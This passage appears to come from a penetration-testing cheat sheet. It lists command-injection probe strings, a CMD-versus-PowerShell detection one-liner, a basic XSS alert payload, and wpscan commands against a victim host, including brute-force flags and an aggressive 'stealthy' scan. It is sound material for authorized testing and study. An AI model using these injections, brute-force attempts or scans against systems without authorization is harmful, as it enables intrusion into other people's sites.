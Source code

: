   ```sh
  
; whoami
&& whoami
& whoami
# surrounding with quotes

#To see if you're executing in CMD or Powershell (will print which one):
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
  
```

### Cross-Site Scripting (XSS)

```php
<script>alert('XSS')</script>

```


### Website Applications (wp, drupal, etc)

**WordPress**
```sh
wpscan --update -o wp-scan.txt --url http://$VICTIM_IP/

# --enumerate options:
# p = Popular plugins
# vp = Vulnerable plugins
# ap = All plugins (takes a while)
# t = Popular themes
# vt = Vulnerable themes
# at = All themes (takes a while)
# cb = Config backups
# tt = Timthumbs
# dbe = Db exports
# u = usernames w/ ids 1-10
# m = media IDs 1-10
# NOTE: Value if no argument supplied: --enumerate vp,vt,tt,cb,dbe,u,m

# other useful flags:
# --login-uri URI
#     The URI of the login page if different from /wp-login.php
# --random-user-agent, --rua
#     Be a bit more stealthy
# --update
#     update the WPScan database before scanning

# username / password bruteforce possible
# -U, --usernames LIST
#     LIST of usernames and/or files w/ usernames to try. e.g. admin,users.txt
#     Will auto-enum users if -U not supplied
# -P, --passwords FILE-PATH
#     path to password file for brute force

# aggressive scan:
wpscan --update \
       --random-user-agent \
       --enumerate ap,at,cb,dbe,u \
       --detection-mode aggressive \
       --plugins-detection aggressive \
       --plugins-version-detection aggressive \
       --url http://$VICTIM_IP/

# scan with cmsmap (https://github.com/Dionach/CMSmap):
```